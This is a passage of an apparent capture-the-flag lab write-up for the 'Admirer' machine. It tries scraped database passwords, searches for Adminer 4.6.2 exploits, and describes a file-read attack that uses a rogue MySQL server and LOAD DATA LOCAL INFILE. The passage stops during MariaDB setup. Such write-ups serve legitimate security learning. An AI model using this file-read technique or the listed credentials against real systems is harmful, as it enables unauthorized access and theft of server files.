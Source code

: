 Try the following known passwords from the scraped from files using the username `waldo` to connect to the database `admirerdb`:

```
fgJr6q#S\W:$P
Ezy]m27}OREc$
%n?4Wz}R$tTF7
w0rdpr3ss01!
]F7jLHw:*G>UPrTo}~A"d6b
Wh3r3_1s_w4ld0?
```

But this does not provide any wins... Since the version `4.6.2` is given on the page, try looking for an exploit?

```bash
searchsploit adminer
```

![ss1](./admirer/ss1.png)

No luck... Try Google for `Adminer 4.6.2 exploit`? This actually gives an interesting result:

- https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool

The website claims a LFI by connecting to a controlled remote MySQL DB and running the following SQL:

```sql
LOAD DATA LOCAL INFILE '<filename>' INTO TABLE <tablename> FIELDS TERMINATED BY "\n";
```

This isn't too hard to test... First install and configure MariaDB on Kali if not already installed:

- **NOT** Check output of `sudo systemctl status mariadb` to see if installed
- https://computingforgeeks.com/how-to-install-mariadb-on-kali-linux/

---

If MySQL is already installed and need to reset the `root` password:

- https://tutorialforlinux.com/2020/02/19/kali-linux-2019-reset-mysql-mariadb-5-7-root-password/

```bash
systemctl stop mariadb
sudo mysqld_safe --skip-grant-tables --skip-networking &
mysql -u root 
```

Now run the following MySQL to reset the the `root` password:

```sql
UPDATE mysql.user SET authentication_string=PASSWORD('<password>'), plugin='mysql_native_password' WHERE User='root' AND Host='localhost';
FLUSH PRIVILEGES;
EXIT;
```
